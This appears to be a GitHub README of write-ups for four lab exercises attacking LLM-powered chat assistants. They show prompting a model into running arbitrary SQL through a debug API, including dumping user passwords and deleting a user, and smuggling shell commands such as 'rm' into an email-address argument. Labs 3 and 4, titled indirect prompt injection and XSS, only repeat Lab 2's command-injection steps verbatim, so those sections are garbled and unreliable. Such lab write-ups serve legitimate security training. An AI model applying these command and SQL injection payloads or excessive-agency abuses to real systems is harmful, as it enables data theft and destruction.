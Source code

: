 # LLM-Security-Labs

## Lab 1: Exploiting LLM APIs with excessive agency

### Challenge
To solve the lab, use the LLM to delete the user `carlos`.

### My Approach
- To visit the `LiveChat` Web page.
- According to the challenge description and LLM's nature, they are exposed to some APIs.
- I use prompt engineering to gather details regarding the same and ask about APIs and their respective arguments `Debug_SQL_API` and `SQLcommand string`.
- Now, I call the `Debug_SQL_API` with the the SQL Comand `SELECT * FROM USERS` which returns the respective information regarding the user like name, password, etc.
- Sweet, I query the same API but with a different args `DELETE FROM users WHERE username='carlos'` which forces the LLM to access the API, run my SQL query and delete the respective user.

**CHALLENGE SOLVED**
![LLMSec1](https://github.com/user-attachments/assets/38cca6c6-2787-4693-80be-ca9b472338df)

## Lab 2: Exploiting vulnerabilities in LLM APIs

### Challenge
This lab contains an OS command injection vulnerability that can be exploited via its APIs. You can call these APIs via the LLM. To solve the lab, delete the `morale.txt` file from Carlos's home directory.

### My Approach
- To visit the `LiveChat` Web page.
- According to the challenge description and LLM's nature, they are exposed to some APIs which can lead to command injection vulnerabilities.
- I use prompt engineering to gather details regarding the same and ask about APIs and their respective arguments like `product_info`, `password_reset`, `subscribe_to_newsletter (args - emailaddress)`.
- I did call the `subscribe_to_newsletter` with arg `attacker@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` to recieve an email on **EMAIL CLIENT** web page.
- We can use the email address for RCE `$(command to execute)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
- Now, time to test and play with the LLM and gather infromation `$(whoami)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` hich returned `carlos` as the output for the command.
- Similarly, for `$(pwd)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` and `$(ls)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` which returns `/home/carlos` and `morale.txt`, respectively.
- Now is the time to delete the file and solve the challenge by `$(rm /home/carlos/morale.txt)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`
  
**CHALLENGE SOLVED**
![LLMSec2](https://github.com/user-attachments/assets/e55a6f59-385a-460f-9164-aa87b86a095f)

## Lab 3: Indirect prompt injection

### Challenge
This lab is vulnerable to indirect prompt injection. The user `carlos` frequently uses the live chat to ask about the Lightweight "l33t" Leather Jacket product. To solve the lab, delete `carlos`.

### My Approach
- To visit the `LiveChat` Web page.
- According to the challenge description and LLM's nature, they are exposed to some APIs also succeptible to prompt injection.
- I use prompt engineering to gather details regarding the same and ask about APIs and their respective arguments like `product_info`, `password_reset`, `subscribe_to_newsletter (args - emailaddress)`.
- I did call the `subscribe_to_newsletter` with arg `attacker@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` to recieve an email on **EMAIL CLIENT** web page.
- We can use the email address for RCE `$(command to execute)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
- Now, time to test and play with the LLM and gather infromation `$(whoami)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` hich returned `carlos` as the output for the command.
- Similarly, for `$(pwd)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` and `$(ls)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` which returns `/home/carlos` and `morale.txt`, respectively.
- Now is the time to delete the file and solve the challenge by `$(rm /home/carlos/morale.txt)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`
  
**CHALLENGE SOLVED**

![LLMSec3](https://github.com/user-attachments/assets/cc359355-d86d-45a0-a2c5-7ef628679f5d)
![LLMSec4](https://github.com/user-attachments/assets/2905e17c-acec-44f6-a66c-1f643e969116)
![Screenshot 2025-05-13 120351](https://github.com/user-attachments/assets/e1f59161-b9ad-47ae-8ec9-a3a934462391)
![Screenshot 2025-05-13 120339](https://github.com/user-attachments/assets/e0553a18-5362-4a8a-a050-89e3cdff2aa8)
![Screenshot 2025-05-13 120332](https://github.com/user-attachments/assets/03c5434a-e63a-4b19-a5a7-e6e4441249e5)
![Screenshot 2025-05-13 120312](https://github.com/user-attachments/assets/39e08677-ec85-480b-b9a5-520d9b1a9406)
![Screenshot 2025-05-13 120017](https://github.com/user-attachments/assets/66c891b2-bd70-4200-82e1-e0f8f4d6174d)
![Screenshot 2025-05-13 115724](https://github.com/user-attachments/assets/8e368249-2de8-4be1-ae49-c0795b4a0cf6)
![Screenshot 2025-05-13 115346](https://github.com/user-attachments/assets/e4f49b72-b676-44b7-b977-dc1645937e65)
![Screenshot 2025-05-13 115312](https://github.com/user-attachments/assets/1e3d4670-30f9-48a2-8200-287ddc348098)
![Screenshot 2025-05-13 114833](https://github.com/user-attachments/assets/871ae36d-b801-4ace-9278-cc9d37868178)
![Screenshot 2025-05-13 114816](https://github.com/user-attachments/assets/9100c85d-6ae1-4683-80cd-7887bf4de4a5)
![Screenshot 2025-05-13 114646](https://github.com/user-attachments/assets/046fd1fb-22fb-424b-8963-f408fdc4f23c)
![Screenshot 2025-05-13 114527](https://github.com/user-attachments/assets/21c61c25-7044-46bc-838d-ccc8fb2b6367)
![Screenshot 2025-05-13 114506](https://github.com/user-attachments/assets/3fba7d49-8439-44c3-8c90-08765cb516bb)
![Screenshot 2025-05-13 110312](https://github.com/user-attachments/assets/833e6e03-3521-412d-8476-078cf6e17a7e)
![Screenshot 2025-05-13 110252](https://github.com/user-attachments/assets/2e78c339-a58e-497f-be64-a71f8100bad4)
![Screenshot 2025-05-13 105001](https://github.com/user-attachments/assets/8e6d85d8-4c84-4246-926e-84964c9aa471)
![Screenshot 2025-05-13 104157](https://github.com/user-attachments/assets/1d11635c-b66b-483b-9294-49fe25618ef6)
![Screenshot 2025-05-13 103809](https://github.com/user-attachments/assets/5948050a-403b-4941-9ef0-1afe3f051094)
![Screenshot 2025-05-13 103529](https://github.com/user-attachments/assets/52e8b160-eb63-4d1c-a6ae-b61e97e7a8a1)
![Screenshot 2025-05-13 102453](https://github.com/user-attachments/assets/a1d6532e-fe63-4b0c-8d06-b6acb07cdf33)

## Lab 4: Exploiting insecure output handling in LLMs

### Challenge
This lab handles LLM output insecurely, leaving it vulnerable to XSS. The user carlos frequently uses the live chat to ask about the **Lightweight "l33t" Leather Jacket** product. To solve the lab, use indirect prompt injection to perform an XSS attack that deletes `carlos`.

### My Approach
- To visit the `LiveChat` Web page.
- According to the challenge description and LLM's nature, they are exposed to some APIs which can lead to command injection vulnerabilities.
- I use prompt engineering to gather details regarding the same and ask about APIs and their respective arguments like `product_info`, `password_reset`, `subscribe_to_newsletter (args - emailaddress)`.
- I did call the `subscribe_to_newsletter` with arg `attacker@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` to recieve an email on **EMAIL CLIENT** web page.
- We can use the email address for RCE `$(command to execute)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
- Now, time to test and play with the LLM and gather infromation `$(whoami)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` hich returned `carlos` as the output for the command.
- Similarly, for `$(pwd)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` and `$(ls)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` which returns `/home/carlos` and `morale.txt`, respectively.
- Now is the time to delete the file and solve the challenge by `$(rm /home/carlos/morale.txt)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`
  
**CHALLENGE SOLVED**


